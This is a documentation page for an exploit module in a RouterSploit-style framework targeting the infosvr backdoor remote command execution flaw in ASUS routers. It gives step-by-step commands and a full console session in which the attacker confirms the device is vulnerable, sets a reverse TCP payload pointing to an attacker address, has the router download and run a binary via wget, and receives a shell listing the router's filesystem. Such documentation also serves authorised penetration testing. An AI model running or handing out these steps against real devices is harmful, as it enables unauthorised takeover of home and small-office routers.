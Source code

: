 ## Description

Module exploits remote command execution in multiple ASUS devices. If the target is vulnerable, command loop is invoked that allows executing commands on operating system level.

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use exploits/routers/asus/infosvr_backdoor_rce`
  3. Do: `set target[TargetIP]
  4. Do: `run`
  5. If router is vulnerable, it should be possible to execute commands on operating system level.
  6. Do: `set payload reverse_tcp`
  7. Do: `set lhost [AttackerIP]`
  8. Do: `run`
  9. Payload is sent to device and executed providing attacker with the command shell.


## Scenarios

```
rsf > use exploits/routers/asus/infosvr_backdoor_rce
rsf (Asus Infosvr Backdoor RCE) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (Asus Infosvr Backdoor RCE) > run
[*] Running module...
[+] Target is vulnerable
[*] Invoking command loop...
[*] Please note that only first 256 characters of the output will be displayed or use reverse_tcp

[+] Welcome to cmd. Commands are sent to the target via the execute method.
[*] For further exploitation use 'show payloads' and 'set payload <payload>' commands.

cmd > show payloads
[*] Available payloads:

   Payload         Name                  Description
   -------         ----                  -----------
   bind_tcp        ARMLE Bind TCP        Creates interactive tcp bind shell for ARMLE architecture.
   reverse_tcp     ARMLE Reverse TCP     Creates interactive tcp reverse shell for ARMLE architecture.

cmd > set payload reverse_tcp
cmd (ARMLE Reverse TCP) > show options

Payload Options:

   Name        Current settings     Description
   ----        ----------------     -----------
   lhost                            Connect-back IP address
   lport       5555                 Connect-back TCP Port
   encoder                          Encoder


cmd (ARMLE Reverse TCP) > set lhost 192.168.1.115
lhost => 192.168.1.115
cmd (ARMLE Reverse TCP) > run
[*] Using wget method
[*] Using wget to download binary
[*] Executing payload on the device
[*] Waiting for reverse shell...
[*] Connection from 192.168.1.1:35220
[+] Enjoy your shell
ls -la
ls -la
drwxr-xr-x   18 admin    root           325 Mar 15  2017 .
drwxr-xr-x   18 admin    root           325 Mar 15  2017 ..
drwxr-xr-x    2 admin    root             3 Mar 15  2017 asus_jffs
drwxr-xr-x    2 admin    root           706 Mar 15  2017 bin
drwxr-xr-x    2 admin    root             3 Mar 15  2017 cifs1
drwxr-xr-x    2 admin    root             3 Mar 15  2017 cifs2
drwxr-xr-x    5 admin    root          1540 Sep  4 23:04 dev
lrwxrwxrwx    1 admin    root             7 Mar 15  2017 etc -> tmp/etc
lrwxrwxrwx    1 admin    root             8 Mar 15  2017 home -> tmp/home
drwxr-xr-x    5 admin    root             0 Sep  4 23:25 jffs
drwxr-xr-x    3 admin    root           402 Mar 15  2017 lib
lrwxrwxrwx    1 admin    root             9 Mar 15  2017 media -> tmp/media
drwxr-xr-x    2 admin    root             3 Mar 15  2017 mmc
lrwxrwxrwx    1 admin    root             7 Mar 15  2017 mnt -> tmp/mnt
lrwxrwxrwx    1 admin    root             7 Mar 15  2017 opt -> tmp/opt
dr-xr-xr-x  101 admin    root             0 Jan  1  1970 proc
drwxr-xr-x    7 admin    root           766 Mar 15  2017 rom
lrwxrwxrwx    1 admin    root            13 Mar 15  2017 root -> tmp/home/root
drwxr-xr-x    2 admin    root          2428 Mar 15  2017 sbin
drwxr-xr-x   11 admin    root             0 Jan  1  1970 sys
drwxr-xr-x    2 admin    root             3 Mar 15  2017 sysroot
drwxrwxrwx   13 admin    root           860 Sep  4 23:33 tmp
drwxr-xr-x    8 admin    root           139 Mar 15  2017 usr
lrwxrwxrwx    1 admin    root             7 Mar 15  2017 var -> tmp/var
drwxr-xr-x   14 admin    root          6036 Mar 15  2017 www
```
